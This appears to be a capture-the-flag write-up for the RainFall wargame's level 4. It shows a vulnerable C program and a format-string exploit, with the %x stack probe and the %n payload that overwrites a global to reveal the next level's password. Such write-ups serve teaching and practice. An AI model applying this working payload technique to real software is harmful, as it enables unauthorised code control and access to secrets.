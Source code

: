 # Level 4

<h3>source.c</h3>

```console
int m = 0;

void p(char* str) {
  printf(str);
}

void n(void) {
  char str[520];

  fgets(str, 512, stdin);
  p(str);
  if (m == 16930116) {
    system("/bin/cat /home/user/level5/.pass");
  }
}

void main(void) {
  n();
}
```

<h3>Analysis</h3>

This program looks very similar to `level3` so we could use the same method `Format string` exploit

Target is to modify the `m` global variable to `16930116`

<h3>Exploit</h3>

The address of `m` is at `0x08049810`

Next we need to find which arg position of the `printf()` that we need to store the char counter on

```console
level4@RainFall:~$ (python -c "print 'aaaa' + ' [%x] ' * 15") | ./level4
aaaa [b7ff26b0]  [bffff744]  [b7fd0ff4]  [0]  [0]  [bffff708]  [804848d]  [bffff500]  [200]  [b7fd1ac0]  [b7ff37d0]  [61616161]  [78255b20]  [5b20205d]  [205d7825]
```

There we have it, the 12th position!

Now we need to write `16930112` char since we already have the 4 bytes for the address of `m`, but it is too long and `printf()` will have a hard time printing it

We could use `%16930112d`, where `%d` is the modifier for digits and we can specify the field width by putting some numbers before it

```console
level4@RainFall:~$ (python -c "print '\x10\x98\x04\x08' + '%16930112d' + '%12\$n'") | ./level4
[...]
[...One eternity later...]
[...]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```